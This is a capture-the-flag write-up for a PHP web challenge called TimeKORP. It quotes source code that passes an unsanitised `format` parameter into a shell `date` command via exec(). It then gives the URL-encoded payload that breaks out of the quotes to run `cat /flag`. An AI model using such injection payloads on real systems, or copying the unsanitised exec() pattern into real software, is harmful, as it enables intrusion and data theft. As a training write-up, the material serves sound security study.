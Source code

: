 # TimeKORP CTF Write-Up 🕒

## 🟢 Overview
- **Category:** Web
- **Challenge Name:** TimeKORP
- **Objective:** Retrieve the flag from a Docker-based PHP app vulnerable to command injection.
- **Tools Used:** Browser, grep, PHP source analysis

## 🔍 Initial Recon
- Accessed: `http://94.237.51.163:49486`
I accessed the challenge at `http://94.237.51.163:49486/` and was greeted by a simple page displaying the current time. Right away, I noticed that the URL accepted a `format` parameter:
- Source code provided: `index.php`, `router.php`, `TimeController.php`, `TimeModel.php`, `Dockerfile`


Changing the value affected how the time was displayed, so I suspected this value was being passed directly into a time-related function.

---

## 🧠 Step 2: Vulnerability Discovery

I checked out the files provided:
- `index.php`
- `router.php`
- `TimeController.php`
- `TimeModel.php`
- `Dockerfile`

The routing system was custom-built. The controller for the root path (`/`) was `TimeController@index`, which led me to this logic:
```php
$format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
$time = new TimeModel($format);
return $router->view('index', ['time' => $time->getTime()]);
```

I then looked into TimeModel.php and found this vulnerability:
```php
$this->command = "date '+" . $format . "' 2>&1";
$time = exec($this->command);
```
$format was not sanitized, meaning our answer was a command injection.

## Exploitation
I started by testing a simple payload to read the flag:
```
?format=%25H%25M%25S;cat%20/flag
```
The output was:
```
It's 06:58:11;cat /flag.
```
So the app accepted the command — but it didn’t show the result of cat /flag. Why? After testing and re-reading the code, I realized the issue:
- The entire format string was inside single quotes '...'
- The date command just treated ;cat /flag as part of the format string

To fix it, I had to break out of the string early, then inject my own command.
Here’s what worked:
```
?format=%25H%25M%25S%27;%20cat%20/flag%20%23
```
Decoded, this becomes:
```
date '+%H%M%S'; cat /flag #'
```
This cleanly ends the date command, runs cat /flag, and comments out anything afterward. Finally, I got the flag printed directly in the browser.

🧠 What I Learned
  - Even simple parameters like ?format= can lead to full command injection when passed into system calls.
  
  - PHP's exec() only returns the last line of output, which can be misleading during testing.
  
  - Escaping out of shell strings is a key technique in exploitation.
  
  - Reviewing source code is critical — it turned what could've been a guessing game into a targeted attack.
